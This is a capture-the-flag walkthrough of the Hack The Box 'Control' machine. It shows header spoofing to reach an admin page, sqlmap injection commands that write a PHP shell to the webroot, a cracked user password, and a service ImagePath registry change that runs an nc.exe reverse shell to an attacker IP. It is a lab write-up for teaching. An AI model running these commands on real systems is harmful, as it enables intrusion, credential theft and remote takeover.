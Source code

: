 ```yaml
---
title: Control
published: true
categories: [box, sqli, Windows]
---
```

![](/htb_box/img/2020-05-07-16-48-26.png)
# Control 
- [Control](#control)
  - [Enumeration](#enumeration)
  - [Exploits - Work](#exploits---work)
  - [PrivEsc](#privesc)
## Enumeration 
[Nmap-File](Control-Enum.txt)

First thing to check based on the nmap is port 80. Basic website with lorem ipsum, and dirbuster does not reveal more. Source code shows an IP address regarding an ssl feature pending and the admin/login page gives an error 

> Access Denied: Header Missing. Please ensure you go through the proxy to access this page

This typically refers to the 'X-Forwarder-For' header so fire up burp and lets inject that header to the get request

![](/htb_box/img/Control.md.png)

This admin page shows a table and a search feature, looks like sqli...

## Exploits - Work

Using sql injection commands an error is shown, so time to use sqlmap to make quick work of this. Save the POST for a regular search through burp and execute a sqlmap.

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL

This yields basically nothing, however it did work therefore we might be able to leverage this for an os-shell or possibly read/write files. 

    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --os-shell

OS-shell failed to handle commands and the next thing to try is file-read looking at the windows default webroot
    
    sqlmap -r productName -p productName --level=3 --risk=3 --DBMS=MYSQL --file-read='c:/Inetpub/wwwroot/admin.php'

That failed to retrieve last thing is writing a file to that same directory and verify it was sent.

    sqlmap -r productName -p productName --level=3 --risk=3 --file-write=test.php --file-dest="c:\Inetpub\wwwroot\test.php"
    do you want confirmation that the local file 'shelly.php' has been successfully written on the back-end DBMS file system ('c:/Inetpub/wwwroot/shellys.php')? [Y/n] 
    [13:01:34] [INFO] retrieved: 69
    [13:01:34] [INFO] the local file 'shelly.php' and the remote file 'c:/Inetpub/wwwroot/shellys.php' have the same size (69 B)
    [13:01:34] [INFO] fetched data logged to text files under '/root/.sqlmap/output/10.10.10.167'

That worked as file was written which leaves getting a shell or enumerating manually through a php command shell.

For the first privelege escalation dump the database passwords and allow sqlmap to decrypt the hash to get:

    hector - l33th4x0rhector

Use these credentials in powershell to execute commands as Hector

    # $SecPassword = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
    # $Cred = New-Object System.Management.Automation.PSCredential('Fidelity\Hector', $SecPassword)
    # $s = New-PSSession -Credential $Cred
    # Invoke-Command -Session $s -ScriptBlock { type C:\Users\Hector\Desktop\user.txt }


## PrivEsc
Using the same methods in the first privesc execute commands to identify the weakness and based on the computer name Control I assume it is something with services as the registry key is called CurrentControlSet, time to enumerate for a weak service using the following command for different services I found RemoteRegistry, SecLogon, and BITS allowed full control

    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /display }
    # Invoke-Command -Session $s -ScriptBlock { C:\Windows\Temp\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\SecLogon" /display }
    /pace =control\hector 	ACCESS_ALLOWED_ACE_TYPE-0x0

	CONTAINER_INHERIT_ACE-0x2      INHERITED_ACE-0x10             

    Key and SubKey - Type of Access:

	Full Control

    Detailed Access Flags :

	KEY_QUERY_VALUE-0x1        KEY_SET_VALUE-0x2          KEY_CREATE_SUB_KEY-0x4     

	KEY_ENUMERATE_SUB_KEYS-0x8 KEY_NOTIFY-0x10            KEY_CREATE_LINK-0x20       DELETE-0x10000             

	READ_CONTROL-0x20000       WRITE_DAC-0x40000          WRITE_OWNER-0x80000        

With that detail I changed the key for ImagePath

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\RemoteRegistry" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "remoteregistry" }
    - [SC] OpenService FAILED 5:
    # Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\system32\svchost.exe -k netsvcs -p
        LOAD_ORDER_GROUP   : 
        TAG                : 0
        DISPLAY_NAME       : Secondary Logon

Bingo! SecLogon is the winner time to modify and restart...

    # Invoke-Command -Session $s -ScriptBlock { reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\seclogon" /t REG_EXPAND_SZ /v ImagePath /d "C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002" /f }
    - The operation completed successfully.
    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    Invoke-Command -Session $s -ScriptBlock { sc.exe qc "seclogon" }
    [SC] QueryServiceConfig SUCCESS

    SERVICE_NAME: seclogon
        TYPE               : 20  WIN32_SHARE_PROCESS 
        START_TYPE         : 3   DEMAND_START
        ERROR_CONTROL      : 1   NORMAL
        BINARY_PATH_NAME   : C:\Windows\Temp\nc.exe -e cmd.exe 10.10.16.92 9002
Start a listener on port 9002 and start the service

    PS C:\windows\temp> Invoke-Command -Session $s -ScriptBlock { sc.exe start "seclogon" }

![](/htb_box/img/Control.md-1.png)


